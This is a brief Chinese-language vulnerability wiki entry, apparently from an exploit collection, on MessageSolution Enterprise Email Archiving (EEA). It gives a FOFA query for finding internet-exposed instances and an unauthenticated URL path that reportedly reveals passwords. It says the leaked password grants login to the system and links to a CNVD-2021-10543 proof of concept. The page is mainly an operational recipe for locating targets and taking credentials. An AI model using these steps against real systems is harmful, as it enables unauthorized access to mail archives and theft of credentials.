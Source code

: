 <languages  /> <translate>

漏洞影響
--------

MessageSolution 企業郵件歸檔管理系統EEA

</translate>

FOFA
----

    title="MessageSolution Enterprise Email Archiving (EEA)"

<translate>

漏洞利用
--------

</translate>

<translate> 訪問如下Url </translate>

    http://xxx.xxx.xxx.xxx/authenticationserverservlet/

![](Xnip2021-03-22_15-06-00.jpg "Xnip2021-03-22_15-06-00.jpg")

<translate> 使用獲得到的密碼可以登錄系統 </translate>

![](Xnip2021-03-22_15-09-59.jpg "Xnip2021-03-22_15-09-59.jpg")

POC
---

<https://github.com/Henry4E36/CNVD-2021-10543>